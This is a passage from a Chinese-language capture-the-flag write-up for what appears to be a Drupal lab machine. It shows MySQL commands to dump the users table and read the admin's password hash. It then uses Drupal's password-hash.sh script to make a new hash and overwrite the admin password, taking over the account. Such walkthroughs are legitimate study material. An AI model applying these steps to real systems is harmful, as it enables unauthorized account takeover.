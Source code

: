 ![image-20211219172120533](https://raw.githubusercontent.com/todis21/image/main/img/image-20211219172120533.png)

选定数据库drupaldb

```
use drupaldb;
```

查看这个数据库的表

```
show tables;
```

![image-20211219172403487](https://raw.githubusercontent.com/todis21/image/main/img/image-20211219172403487.png)

查询到敏感表`users`,查看里面的信息

```
select *from users;
```



![image-20211219172655690](https://raw.githubusercontent.com/todis21/image/main/img/image-20211219172655690.png)

可以看到admin的账号密码，密码被hash加密过,这里有两种选择，要么爆破，要么改数据库里的密码



由flag2提示，爆破这条路似乎走不通，只能修改密码

首先要找到它的加密脚本丢在哪里，百度一下得知脚本名称为`password-hash.sh`,然后查找一下

```
find / -name password-hash.sh
```

![image-20211219174428472](https://raw.githubusercontent.com/todis21/image/main/img/image-20211219174428472.png)

得到路径: /var/www/scripts/password-hash.sh

使用drupal 自带脚本重新生成加密后的密码,这里打算把密码改为admin

```
./scripts/password-hash.sh admin
```

![image-20211219175317713](https://raw.githubusercontent.com/todis21/image/main/img/image-20211219175317713.png)

得到加密后的密码;

```
$S$DDEzmVGyUponhBeWCHBORSLh8X/MX1k0dnHdjF2QG8eq3IDaugr6
```

回到mysql修改admin密码

```
update users set pass='$S$DDEzmVGyUponhBeWCHBORSLh8X/MX1k0dnHdjF2QG8eq3IDaugr6' where uid=1;
```

![image-20211219175635384](https://raw.githubusercontent.com/todis21/image/main/img/image-20211219175635384.png)
